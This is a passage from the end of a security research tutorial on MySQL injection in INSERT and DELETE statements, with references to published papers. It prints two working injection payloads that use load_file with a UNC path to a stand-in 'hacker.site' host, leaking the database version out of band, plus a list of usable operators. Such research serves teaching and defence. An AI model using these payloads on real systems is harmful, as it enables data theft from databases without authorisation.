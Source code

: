 
    
    <code>INSERT into users VALUES (15,'james','bond'|load_file(concat('\\\\',version(),'.hacker.site\\a.txt')));
    </code>




## Delete Statement



    
    <code>DELETE FROM users WHERE id='15'*load_file(concat('\\\\',version(),'.hacker.site\\a.txt'));
    </code>


You can use ||, or, |, and, &&, &, >>, <<, ^, xor, <=, <, ,>, >=, *,mul, /, div, -, +, %, mod.


## Conclusion


Exploitation of a vulnerability is not straight forward in real world scenarios. It’s up to you to make use of these techniques and come with a creative solution in the exploitation of SQL injection vulnerabilities. Analyze the situation and depending on the situation apply the correct techniques.


## Acknowledgements


Special thanks to Mukarram Khalid (@themakmaniac) for reviewing and testing my research.


## Paper


[https://www.exploit-db.com/docs/41275.pdf ](https://www.exploit-db.com/docs/41275.pdf)
[https://packetstormsecurity.com/files/140936/Extracting-Data-From-UPDATE-And-INSERT.html ](https://packetstormsecurity.com/files/140936/Extracting-Data-From-UPDATE-And-INSERT.html)


## References


[http://dev.mysql.com/doc/refman/5.7/en/](http://dev.mysql.com/doc/refman/5.7/en/)

SQLi is often a cancerous topic, if you plan to copy or share please give credits to the author.

[https://osandamalith.com/2017/02/08/mysql-injection-in-update-insert-and-delete/#more-2172](https://osandamalith.com/2017/02/08/mysql-injection-in-update-insert-and-delete/#more-2172)
